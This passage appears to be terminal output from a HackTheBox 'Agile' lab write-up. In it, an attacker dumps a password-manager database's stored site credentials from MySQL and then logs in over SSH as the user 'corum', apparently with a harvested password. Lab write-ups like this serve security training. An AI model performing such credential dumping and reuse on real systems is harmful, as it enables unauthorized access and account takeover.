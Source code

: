 ```sh
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 46
Server version: 8.0.32-0ubuntu0.22.04.2 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;
show tables;
+---------------------+
| Tables_in_superpass |
+---------------------+
| passwords           |
| users               |
+---------------------+
2 rows in set (0.00 sec)

mysql> select * from passwords;
select * from passwords;
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id | created_date        | last_updated_data   | url            | username | password             | user_id |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
|  8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
mysql> exit
exit
eBye
$ xit
exit
exit
^C
                                                                                                                                                                                            
┌──(stowner㉿kali)-[~/Desktop/HackTheBox/Agile]
└─$ ssh corum@superpass.htb                       
corum@superpass.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
```